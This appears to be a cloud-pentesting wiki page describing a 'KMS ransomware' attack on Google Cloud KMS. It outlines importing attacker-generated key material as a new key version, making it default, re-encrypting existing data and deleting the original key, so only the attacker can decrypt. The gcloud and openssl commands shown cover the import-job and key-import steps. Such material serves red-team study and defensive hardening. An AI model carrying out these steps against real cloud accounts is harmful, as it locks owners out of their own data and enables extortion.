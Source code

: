 ### KMS Ransomware

In AWS it's possible to completely **steal a KMS key** by modifying the KMS resource policy and only allowing the attackers account to use the key. As these resource policies doesn't exist in GCP this is not possible.

However, there is another way to perform a global KMS Ransomware, which would involve the following steps:

* Create a new **version of the key with a key material** imported by the attacker

{% code overflow="wrap" %}
```bash
gcloud kms import-jobs create [IMPORT_JOB] --location [LOCATION] --keyring [KEY_RING] --import-method [IMPORT_METHOD] --protection-level [PROTECTION_LEVEL] --target-key [KEY]
```
{% endcode %}

* Set it as **default version** (for future data being encrypted)
* **Re-encrypt older data** encrypted with the previous version with the new one.
* **Delete the KMS key**
* Now only the attacker, who has the original key material could be able to decrypt the encrypted data

#### Here are the steps to import a new version and disable/delete the older data:

```bash
# Encrypt something with the original key
echo "This is a sample text to encrypt" > /tmp/my-plaintext-file.txt
gcloud kms encrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --plaintext-file my-plaintext-file.txt \
  --ciphertext-file my-encrypted-file.enc

# Decrypt it
gcloud kms decrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --ciphertext-file my-encrypted-file.enc \
  --plaintext-file -


# Create an Import Job
gcloud kms import-jobs create my-import-job \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --import-method "rsa-oaep-3072-sha1-aes-256" \
  --protection-level "software"

# Generate key material
openssl rand -out my-key-material.bin 32

# Import the Key Material (it's encrypted with an asymetrict key of the import job previous to be sent)
gcloud kms keys versions import \
    --import-job my-import-job \
    --location us-central1 \
    --keyring kms-lab-2-keyring \
    --key kms-lab-2-key \
    --algorithm "google-symmetric-encryption" \ 
    --target-key-file my-key-material.bin

```